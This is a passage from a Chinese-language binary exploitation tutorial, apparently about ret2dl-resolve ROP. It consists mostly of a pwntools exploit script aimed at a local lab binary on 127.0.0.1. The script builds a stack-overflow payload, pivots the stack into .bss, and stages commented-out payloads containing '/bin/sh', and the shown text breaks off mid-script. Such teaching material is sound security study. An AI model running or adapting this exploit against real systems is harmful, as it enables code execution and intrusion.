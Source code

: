 具体的以后遇到再说。

如果觉得手工构造太麻烦，有一个工具 [roputils](https://github.com/inaz2/roputils) 可以简化此过程，感兴趣的同学可以自行尝试。


## 漏洞利用
完整的 exp 如下：
```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./a.out')
io = remote('127.0.0.1', 10001)
io.recv()

pppr_addr      = 0x08048699     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x0804869b     # pop ebp ; ret
leave_ret_addr = 0x080484b6     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628

payload_1  = "A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)
io.send(payload_1)

# payload_2  = "AAAA"     # new ebp
# payload_2 += p32(write_plt)
# payload_2 += "AAAA"
# payload_2 += p32(1)
# payload_2 += p32(base_addr + 80)
# payload_2 += p32(len("/bin/sh"))
# payload_2 += "A" * (80 - len(payload_2))
# payload_2 += "/bin/sh\x00"
# payload_2 += "A" * (100 - len(payload_2))
# io.sendline(payload_2)
# print io.recv()

# reloc_index = 0x20
# payload_3  = "AAAA"
# payload_3 += p32(plt_0)
# payload_3 += p32(reloc_index)
# payload_3 += "AAAA"
# payload_3 += p32(1)
# payload_3 += p32(base_addr + 80)
# payload_3 += p32(len("/bin/sh"))
# payload_3 += "A" * (80 - len(payload_3))
```